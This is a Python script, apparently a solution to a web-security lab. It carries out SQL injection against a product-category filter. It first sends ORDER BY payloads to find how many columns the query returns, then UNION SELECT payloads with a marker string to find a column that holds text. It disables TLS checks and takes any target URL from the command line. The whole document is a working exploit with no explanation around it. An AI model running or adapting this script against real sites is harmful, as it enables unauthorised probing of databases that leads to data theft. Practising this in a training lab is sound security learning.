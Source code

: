 ```
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_column_number(url):
    path = "filter?category=Gifts"
    for i in range(1,50):
        sql_payload = "'+order+by+%s--" %i
        r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if "Internal Server Error" in res:
            return i - 1
        i = i + 1
    return False

def exploit_sqli_string_field(url, num_col):
    path = "filter?category=Gifts"
    for i in range(1, num_col+1):
        string = "'v2F6UA'"
        payload_list = ['null'] * num_col
        payload_list[i-1] = string
        sql_payload = "' union select " + ','.join(payload_list) + "--"
        r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if string.strip('\'') in res:
            return i
    return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("[+] Figuring out number of columns...")
    num_col = exploit_sqli_column_number(url)
    if num_col:
        print("[+] The number of columns is " + str(num_col) + "." )
        print("[+] Figuring out which column contains text...")
        string_column = exploit_sqli_string_field(url, num_col)
        if string_column:
            print("[+] The column that contains text is " + str(string_column) + ".")
        else:
            print("[-] We were not able to find a column that has a string data type.")
    else:
        print("[-] The SQLi attack was not successful.")

```

